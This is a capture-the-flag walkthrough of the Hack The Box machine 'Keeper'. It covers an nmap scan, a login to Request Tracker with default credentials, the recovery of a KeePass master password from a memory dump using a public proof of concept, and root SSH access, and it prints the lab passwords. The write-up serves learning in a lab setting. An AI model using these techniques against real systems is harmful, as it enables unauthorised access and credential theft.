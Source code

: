 # Keeper

## NMAP&#x20;

```rust
nmap -sCV -T5 10.129.229.41
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-19 11:41 PST
Warning: 10.129.229.41 giving up on port because retransmission cap hit (2).
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.25% done; ETC: 11:41 (0:00:00 remaining)
Nmap scan report for 10.129.229.41
Host is up (0.090s latency).
Not shown: 902 closed tcp ports (conn-refused), 96 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.37 seconds
```

## HTTP Enumeration (80)

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Login Portal&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Exploiting Request Tracker

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

It was not vulnerable to those CVE's to bypass login but I was able to use default credentials

{% embed url="https://github.com/bestpractical/rt" %}

```
NOTE: The default credentials for RT are: - User: root - Pass: password Not changing the root password from the default is a SECURITY risk!
```

#### Web Enumeration

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## User Access

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

We have a keepass dmp and database.  Using this tool we can extract the .dmp file

{% embed url="https://github.com/matro7sh/keepass-dump-masterkey" %}

#### Dumping .dmp

```
❯ python3 poc.py -d /home/p3ta/htb/boxes/keeper/KeePassDumpFull.dmp
2024-01-19 12:40:52,001 [.] [main] Opened /home/p3ta/htb/boxes/keeper/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Pasting the special charaters into google gives us the password

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

```
rødgrød med fløde
```

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

root: F4><3K0nd!

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Using puttyget i converted the key to is\_rsa and was able to use SSH

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>






